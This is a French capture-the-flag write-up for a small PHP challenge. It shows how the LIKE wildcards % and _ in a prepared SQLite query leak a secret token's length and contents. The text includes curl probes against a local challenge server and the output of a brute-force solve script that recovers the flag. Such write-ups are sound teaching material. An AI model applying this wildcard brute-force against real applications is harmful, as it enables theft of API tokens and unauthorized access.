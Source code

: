 # Writeup 🌶️🌶️🌶️ SQL Me

Dans ce mini challenge PHP de moins de 20 lignes, il faut retrouver le "super token" qui permet d'obtenir le flag.

Ce token est stocké dans une base de données SQLite. Une requête préparée permet d'interroger la BDD :

```php
$stmt = $db->prepare('SELECT token FROM api_tokens WHERE token LIKE :cond AND is_super_token=1');
$stmt->bindValue(':cond', "%$super_token%", SQLITE3_TEXT);
```

A priori, pas d'injection SQL mais... l'utilisation d'une condition avec `LIKE` est intéressante.

## Longueur du token

Dans un `LIKE` en SQL, le caractère `%` est un wildcard qui permet de matcher 0 ou plus caractères.

Il existe un autre wildcard : `_`. Celui-ci permet de matcher n'importe quel caractère **exactement** une fois. Cela va nous permettre de déterminer la longueur du token.

Imaginons que le token stocké en BDD ait la valeur `foobar`.

```sql
SELECT token from api_token WHERE token LIKE '%_%' -- retourne foobar parce que la longueur >= 1

SELECT token from api_token WHERE token LIKE '%______%' -- (6*'_') retourne foobar parce que la longueur >= 6

SELECT token from api_token WHERE token LIKE '%_______%' -- (7*'_') ne retourne rien car aucune valeur a une longueur >= 7
```

On utilise la même méthode pour trouver la longueur du token dans notre challenge :

```console
pun@ctf:~$ curl `python3 -c "print('http://127.0.0.1:45004/?token='+'_'*20)"`
Error: invalid token.

pun@ctf:~$ curl `python3 -c "print('http://127.0.0.1:45004/?token='+'_'*21)"`
Error: invalid token.

pun@ctf:~$ curl `python3 -c "print('http://127.0.0.1:45004/?token='+'_'*22)"`
Error: token not found.
```

On détermine ainsi que le token a une longueur de 21 caractères.

## Bruteforce

Si on reprend notre exemple de la valeur `foobar` en BDD, on comprend rapidement qu'il devient possible de trouver la valeur en itérant les caractères un à un :

```sql
SELECT token from api_token WHERE token LIKE '%a_____%' -- ne retourne rien
SELECT token from api_token WHERE token LIKE '%f_____%' -- retourne foobar

SELECT token from api_token WHERE token LIKE '%fn____%' -- ne retourne rien
SELECT token from api_token WHERE token LIKE '%fo____%' -- retourne foobar
```

En continuant comme ça, on se dit que c'est trivial. Il y a cependant plusieurs problèmes :
- `LIKE` est insensible à la casse, donc `%FOO___%` et `%foO___` retourne le même résultat
- Et si le token à trouver est `this_string_is_100%_legit` ? Comment savoir si un caractère vaut `%` ou `_` ? On peut penser qu'il suffit d'échapper ses caractères mais à la date de ce writeup, pour les échapper il faut écrire une requête SQL comme ceci : `SELECT token from api_tokens LIKE '%this\_string%' ESCAPE '\'`. Or dans notre cas, à cause de la requête préparée, on ne peut pas sortir de notre chaine de caractères.

La stratégie à adopter pour résoudre le challenge est celle-ci :
1. on bruteforce la longueur du token
2. on bruteforce chaque caractère en lowercase en excluant `%` et `_`. Si rien n'est trouvé, on suppose que ce caractère est l'un des deux wildcards.
3. on génère une liste de toutes les tokens possibles en permutant les `%` et `_`
4. de cette liste, on génère toutes les combinaisons possible sensible à la casse. Par exemple, si notre liste de permutations est `['a_b5', 'a%b5']`, les combinaisons à générer sont : `['a_b5', 'A_b5', 'A_B5', 'a_B5', 'a%b5', 'A%b5', ... ]`
5. on bruteforce chaque token de notre liste en intérrogeant l'API jusqu'à obtenir le fag.

C'est l'heure de scripter =) (voir les fichiers `sqlme_solve.php` et `sqlme_solve.py` en fonction de vos affinités de langage)

## Flag time !

```console
pun@ctf:~$ php sqlme_solve.php 
# Step 1: Guessing token length...
 |__ length=21

# Step 2: Guessing lowercase token...
 |__ l1k3_=c0nd_1nj3ct10n!

# Step 3: Permumations of '%' and '_'
 |__ l1k3_=c0nd_1nj3ct10n!
 |__ l1k3_=c0nd%1nj3ct10n!
 |__ l1k3%=c0nd_1nj3ct10n!
 |__ l1k3%=c0nd%1nj3ct10n!

# Step 4: Case sensitive combinaisons
 |__ 4096 tokens generated.

# Step 5: Bruteforce
 |__ [2356/4096] L1K3%=C0Nd_1nj3ct10N!

# Result
 |__ URL: /?token=L1K3%25%3DC0Nd_1nj3ct10N%21
 |__ MSG: Hello Senpai ! 🚩 brb{BugB0unty_St0ry_bY_Geluchat_@Laluka_Twitch}
```

# Credit

Ce chall a été fortement inspiré d'un stream de [Laluka](https://x.com/TheLaluka) où [Geluchat](https://x.com/geluchat) a partagé un cas de Bug Bounty =)

Le replay (à partir de 25min57) : https://www.youtube.com/watch?v=audf3luSSgg&t=1557s

